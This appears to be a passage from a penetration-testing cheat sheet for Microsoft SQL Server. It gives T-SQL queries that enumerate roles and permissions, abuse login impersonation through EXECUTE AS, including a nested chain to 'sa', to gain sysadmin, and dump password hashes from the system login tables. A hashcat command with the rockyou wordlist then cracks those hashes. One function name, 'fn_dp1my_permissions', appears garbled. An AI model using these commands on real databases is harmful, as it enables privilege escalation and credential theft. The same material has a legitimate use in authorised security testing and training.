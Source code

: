 ```bash
# List All Database Roles
SELECT DB1.name AS DatabaseRoleName,
isnull (DB2.name, 'No members') AS DatabaseUserName
FROM sys.database_role_members AS DRM
RIGHT OUTER JOIN sys.database_principals AS DB1
ON DRM.role_principal_id = DB1.principal_id
LEFT OUTER JOIN sys.database_principals AS DB2
ON DRM.member_principal_id = DB2.principal_id
WHERE DB1.type = 'R'
ORDER BY DB1.name;
# Effective Permissions from the Server
select * from fn_my_permissions(null, 'server');
# Effective Permissions from the Database
SELECT * FROM fn_dp1my_permissions(NULL, 'DATABASE');
# Find SQL Server Logins Which can be Impersonated for the Current Database
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'impersonate'
# Exploiting Impersonation
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
# Exploiting Nested Impersonation
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'stduser'
SELECT SYSTEM_USER
EXECUTE AS LOGIN = 'sa'
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
SELECT SYSTEM_USER
# MSSQL Accounts and Hashes
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
# Then crack passwords using Hashcat : hashcat -m 1731 -a 0 mssql_hashes_hashcat.txt /usr/share/wordlists/rockyou.txt --force
```
{% endcode %}

## Get hashes
